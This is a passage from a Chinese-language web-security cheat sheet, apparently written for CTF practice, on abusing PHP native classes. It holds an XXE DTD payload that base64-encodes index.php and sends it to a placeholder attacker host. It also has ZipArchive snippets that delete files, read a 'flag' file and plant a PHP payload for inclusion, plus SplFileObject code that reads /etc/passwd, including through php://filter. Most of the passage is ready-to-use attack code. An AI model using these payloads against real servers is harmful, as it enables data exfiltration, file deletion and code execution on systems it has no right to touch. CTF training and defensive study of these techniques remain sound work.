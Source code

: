 send.xml
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">  
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx.xxx/send.php?file=%file;'>">
```

### SSRF

## XXE:SimpleXMLIterator

可用于代替 SimpleXMLElement

## 文件操作：ZipArchive
利用版本: (PHP 5 >= 5.2.0, PHP 7, PECL zip >= 1.1.0)

这个类是在php5.2.0之后引入的，我们之前会在一些原生类利用中见到它，我们可以用这个类来删除文件，读取文件以及有损写文件。

### 删除文件

```php
$a=new ZipArchive();
$a->open("file", ZipArchive::OVERWRITE); // ZipArchive::CREATE也可以用8代替
```
### 读取文件
```php
$f = "flag";
$zip=new ZipArchive();
$zip->open("a.zip", ZipArchive::CREATE);
$zip->addFile($f);
$zip->close();
$zip->open("a.zip");
echo $zip->getFromName($f);
$zip->close();
```

### 有损写文件
```php
$f = "flag";
$zip=new ZipArchive();
$zip->open("a.zip", ZipArchive::CREATE);
$zip->setArchiveComment("<?php phpinfo();?>");
$zip->addFromString("file", "");
$zip->close();
//include "a.zip";
```
## 读写文件：SplFileObject

SplFileInfo 类为单个文件的信息提供了一个高级的面向对象的接口，可以用于对文件内容的遍历、查找、操作等。所以我们也可以利用这个类中的方法代替普通函数来读写文件。
### 读文件
```php
<?php
$context = new SplFileObject('/etc/passwd');
foreach($context as $f){
    echo($f);
}
// 或者用伪协议base64直接输出，有时候有奇效
$context = new SplFileObject('php://filter/read=convert.base64-encode/resource=/etc/passwd');
echo $context;
```
